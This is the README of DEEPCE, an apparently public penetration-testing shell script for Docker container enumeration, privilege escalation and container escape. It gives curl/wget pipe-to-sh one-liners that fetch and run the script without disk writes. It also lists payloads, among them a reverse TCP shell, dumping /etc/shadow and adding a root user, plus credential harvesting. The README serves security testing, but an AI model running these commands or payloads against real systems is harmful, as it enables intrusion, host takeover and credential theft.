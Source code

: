 # deepce

```
                      ##         .
                ## ## ##        ==
             ## ## ## ##       ===
         /"""""""""""""""""\___/ ===
    ~~~ {~~ ~~~~ ~~~ ~~~~ ~~~ ~ /  ===- ~~~
         \______ X           __/
           \    \         __/
            \____\_______/
          __                        
     ____/ /__  ___  ____  ________ 
    / __  / _ \/ _ \/ __ \/ ___/ _ \   ENUMERATE
   / /_/ /  __/  __/ /_/ / (__/  __/  ESCALATE
   \__,_/\___/\___/ .___/\___/\___/  ESCAPE
                 /_/
```

Docker Enumeration, Escalation of Privileges and Container Escapes (DEEPCE)

In order for it to be compatible with the maximum number of containers DEEPCE is written in pure `sh` with no dependancies. It will make use of additional tools such as curl, nmap, nslookup and dig if avaliable but for the most part is not reliant upon them for enumeration.

None of the enumeration should touch the disk, however most of the exploits create new containers which will cause disk writes and some of the exploits overwrite runC which can be destructive, so be careful!

Please see below for a list of the enumerations, exploits and payloads DEEPCE can use. If you have ideas for any more please submit an issue in github!

# Downloading

DEEPCE can be downloaded onto a host or container using one of the following one-liners. Tip: download to `/dev/shm` to avoid touching the disk when downloading.

```bash
wget https://github.com/stealthcopter/deepce/raw/master/deepce.sh
curl -s https://github.com/stealthcopter/deepce/raw/master/deepce.sh -o deepce.sh
# Or using python requests
python -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/master/deepce.sh").content)' > deepce.sh 
python3 -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/master/deepce.sh").content.decode("utf-8"))' > deepce.sh 
```

## Enumerations

The following is the list of enumerations performed by DEEPCE. 

- Container ID & name (via reverse dns)
- Container IP / DNS Server
- Docker Version
- Interesting mounts
- Passwords in common files
- Environment variables
- Password hashes
- Common sensitive files stored in containers
- Other containers on same network
- Port scan other container and the host machine
- Find exposed docker sock

## Exploits

- Docker Group Privledge Escaltion
- Priveledged mode host command execution
- Exposed Docker Sock

## Payloads

For each of the exploits above payloads can be defined in order to exploit the host system. These include:

- Reverse TCP shell
- Print /etc/shadow
- Add new root user
- Run custom commands
- Run custom payload binaries

# Examples
```bash
./deepce.sh 
```

# Advanced Usage

It is possible to download and run deepce without touching the disk, however you will be unable easily set arguments (direct maniuplation of variables is possible using export).

```bash
wget -O - https://github.com/stealthcopter/deepce/raw/master/deepce.sh | sh
curl -s https://github.com/stealthcopter/deepce/raw/master/deepce.sh | sh
```

# Inspiration

There are some great container enumeration/escape scripts and enumeration tools that I've got inspiration from when writing this. Howevr I felt the need to write one purely in `sh` in order to avoid having to install go / ruby dependancies or be reliant on a static binary. I also wanted to be able to perform more enumerations to try to discover what the docker container is as during as test we may end up inside an unknown container. The number of things this script can enumerate got away from me as every time I added something new I thought of more additional things I could add.

- LinEnum.sh
- LinPEAS
- BotB - Break out the box
- Harpoon

# Resources

Developer looking for Docker security tips
https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Docker_Security_Cheat_Sheet.md


# Contributing

I welcome pull requests, issues and feedback.

- Fork it
- Create your feature branch (git checkout -b my-new-feature)
- Commit your changes (git commit -am 'Added some feature')
- Push to the branch (git push origin my-new-feature)
- Create new Pull Request


